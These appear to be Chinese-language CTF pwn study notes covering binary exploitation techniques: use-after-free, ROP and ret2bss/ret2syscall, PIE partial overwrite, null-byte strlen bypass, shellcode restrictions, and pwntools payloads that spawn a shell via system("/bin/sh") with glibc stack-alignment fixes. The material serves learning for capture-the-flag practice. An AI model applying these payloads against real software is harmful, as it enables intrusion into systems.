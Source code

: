 # 解题思路

0. checksec, seccomp-tools 检测, 缩减为 `c <file>`
1. 指针不置 0, uaf
2. ROPgadget --ropchain --binary ./file
3. ret2bss : 1.gets 栈溢出, 2.有 plt.system 3.有 bss 可以直接 ret2bss 手动写入 getshell _Ubuntu18 以上 bss 段不能覆盖 stdin, stdout, 可覆盖 stderr_
4. gets 直接打 orw
5. ret2syscall: 存在 int 0x80, 可控栈溢出, pop eax, ebx,ecx,edx
6. pie : 目标地址接近，栈溢出覆盖最低位地址即可 pie_02_partial_overwrite.py
7. strncmp/strlen , 首字符输入为 \x00 可以绕过, 因为 strlen 遇到 \x00 会停止 见[截断字符](#截断字符)
8. read(0, name, 0x20uLL); 一写要输到 0x20 看有没泄露 见[截断字符](#截断字符)
9. shellcode: 限制字符串 [Video](https://www.bilibili.com/video/BV1Z14y1B7ji/) ,NewstarCTF2023 shellcode revenge
   1. ret2 sys_read, 在 read 中不会限制。然后在 read 中输入 shellcode
10. syscall/syswrite 遇到 00 不断截断，会输出指定字节数, 看汇编有时没 rbp 直接 ret
11. system("$0") == system('bin/sh') # 记得用
12. 权限不够 -- 尝试 setuid

# 环境配置

[gdb 调试 | pwndbg+pwndbg 联合使用](https://blog.csdn.net/weixin_43092232/article/details/105648769)
[glibc download](https://mirror.tuna.tsinghua.edu.cn/ubuntu/pool/main/g/glibc/libc6_2.23-0ubuntu10_i386.deb)

# 常用函数 API

system

```sh
system, ret_addr, bin_sh

system("$0")  == system('bin/sh') # 修改输入输出流: exec 1>&2
```

# FAQ

Q1. 本地打通远程打不通

- 1. U18 以上 栈对齐

1. _Ubuntu18 以上 bss 段不能覆盖 stdin, stdout, 可覆盖 stderr_
   [Link](https://blog.csdn.net/weixin_42016744/article/details/122422452)

```bash
得知glibc2.27以后引入xmm寄存器, 记录程序状态, 会执行movaps指令, 要求rsp是按16字节对齐的, 所以如果payload这样写
payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr)
弹出的数据是奇数个, 本地就会报错
但是改成偶数个pop
payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(ret_addr) + p64(system_addr)
就能打通本地了
原因: xmm寄存器的问题，当glibc版本大于2.27的时候，系统调用system("/bin/sh")之前有个xmm寄存器使用。要确保rsp是与16对齐的，也就是末尾必须是0.

* 1.找ret加入
* 2.找奇数个pop指令就能对齐了, pop 加入
0x0000000000001321 : pop rsi ; pop r15 ; ret
# 对齐1, bin_sh后
payload1 = flat('a' * (0x58), pop_rdi, bin_sh, pop_rsi_r15, 0, 0, system, 0)

* 用rop函数更容易
rop.call(system, [bin_sh, 0])  # 加个0用来栈对齐的
```
